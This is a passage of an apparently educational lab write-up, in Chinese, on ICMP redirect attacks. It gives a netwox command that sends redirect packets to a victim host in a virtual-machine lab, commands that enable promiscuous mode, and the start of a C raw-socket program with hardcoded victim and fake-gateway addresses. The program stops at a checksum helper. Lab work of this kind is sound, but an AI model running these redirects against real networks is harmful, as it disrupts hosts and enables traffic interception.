 1. 体验ICMP重定向攻击的效果，加深对ICMP协议功能的理解。

2. 练习使用Raw Socket编程，学习构造包括包头部分的数据包。

## 实验步骤

1. 使用netwox体会实验效果，使用netwox 86发送ICMP重定向包。

   攻击者IP地址：`192.168.10.129`

   被攻击者IP地址：`192.168.10.131`

   使用命令

   ```shell
   netwox 86 -g "192.168.10.129" -i "192.168.10.2"
   ```

   此时被攻击的主机无法上网，Ping命令显示Redirect Host。

   

   通过WireShark可以抓到ICMP重定向包。

   

2. 使用Raw Socket实现ICMP重定向，对指定IP的主机实施重定向攻击。

   注意需要开启虚拟机网卡的混杂模式

   ```
   ifconfig ens33 promisc #开启混杂模式
   ifconfig ens33 -promisc #关闭混杂模式
   ```

   ```c
   // main.c
   #include<stdio.h>
   #include<stdlib.h>
   #include<string.h>
   #include<arpa/inet.h>
   #include<sys/socket.h>
   #include<netinet/ip_icmp.h>
   #include<netinet/if_ether.h>
   
   #define BUFFSIZE 1024
   struct sockaddr_in target;
   struct sockaddr_in source;
   
   const unsigned char *my_IP_src = "192.168.10.2";    // 原网关
   const unsigned char *my_IP_dst = "192.168.10.131";  // 攻击对象IP
   const unsigned char *fakeGatway = "192.168.10.129";  // 攻击者IP
   
   // 计算校验和
   unsigned short in_cksum(unsigned short *addr, int len){
       int sum=0;
       unsigned short res=0;
       while( len > 1)  {
           sum += *addr++;
           len -=2;
       }
       if( len == 1) {
           *((unsigned char *)(&res))=*((unsigned char *)addr);
           sum += res;
       }
       sum = (sum >>16) + (sum & 0xffff);
       sum += (sum >>16) ;
       res = ~sum;
       return res;
   }
   
   ```